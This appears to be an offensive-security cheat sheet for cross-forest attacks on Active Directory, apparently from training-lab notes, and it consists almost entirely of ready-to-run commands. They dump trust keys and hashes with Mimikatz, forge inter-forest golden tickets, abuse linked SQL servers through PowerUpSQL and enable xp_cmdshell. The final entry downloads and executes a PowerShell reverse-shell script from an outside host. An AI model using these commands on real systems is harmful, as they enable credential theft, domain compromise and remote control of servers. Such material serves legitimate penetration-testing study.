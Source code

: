 # Cross Forest Attacks

### Trust flow

## **Dump trust keys**

Look for in trust key from child to parent (first command) Look for NTLM hash (second command)

```
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -Computername <computername>
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```

## **Create a intern-forest TGT**

```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<domain> /sid:<domain sid> /rc4:<hash of trust> /service:krbtgt /target:<target> /ticket:<path to save ticket>"'
```

## **Create a TGS for a service (kekeo\_old)**

```
./asktgs.exe <kirbi file> CIFS/<crossforest dc name>
```

## **Use the TGT**

```
./kirbikator.exe lsa <kirbi file>
```

## **Check access to server**

```
ls \\<servername>\<share>\
```

## Trust abuse SQL

```
. .\PowerUpSQL.ps1
```

## **Discovery SPN scanning**

```
Get-SQLInstanceDomain
```

## **Check accessibility**

```
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded – Verbose
```

## **Gather information**

```
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

## **Search for links to remote servers**

```
Get-SQLServerLink -Instance <sql instance> -Verbose
```

## **Enumerate database links**

```
Get-SQLServerLinkCrawl -Instance <sql instance> -Verbose
```

## **Enable xp\_cmdshell**

```
Execute(‘sp_configure “xp_cmdshell”,1;reconfigure;’) AT “<sql instance>”
```

## **Execute commands**

```
Get-SQLServerLinkCrawl -Instance <sql instance> -Query "exec master..xp_cmdshell 'whoami'"
```

## **Execute reverse shell example**

```
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "exec master..xp_cmdshell 'Powershell.exe iex (iwr http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1 -UseBasicParsing);reverse -Reverse -IPAddress xx.xx.xx.xx -Port 4000'"
```
